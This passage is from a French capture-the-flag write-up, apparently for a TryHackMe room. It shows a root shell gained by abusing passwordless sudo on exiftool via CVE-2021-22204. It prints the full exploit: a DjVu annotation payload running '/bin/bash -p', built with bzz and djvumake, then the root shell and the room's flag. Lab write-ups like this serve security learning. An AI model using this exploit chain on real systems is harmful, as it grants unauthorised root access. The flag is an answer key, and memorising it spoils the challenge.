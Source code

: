 sudo nous permet d'exécuter exiftool avec les droits root sans mot de passe.  

En faisant un recherche sur internet on trouve un article qui explique l'exploitation.  
[article](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)    

Le CVE number est : CVE-2021-22204   

**What is the utility used to create the PoC file?**  

En lisant l'article, on voit qu'il utilise l'utilitaire : djvumake 

**Escalate your privileges. What is the flag in root.txt?**

```bash
cd /tmp
stux@ubuntu:/tmp$ cat payload
(metadata "\c${system('/bin/bash -p')};")
stux@ubuntu:/tmp$ bzz payload payload.bzz
stux@ubuntu:/tmp$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

On crée notre exploit.  

```bash
stux@ubuntu:/tmp$ sudo /usr/local/bin/exiftool /tmp/exploit.djvu
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp# cat /root/root.txt
thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}
```

On exécute notre exploit.  
On obtient un shell avec les droits root.  
On regarde le flag dans le fichier root.txt qui est dans le répertoire root.   
Le flag est : thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}   

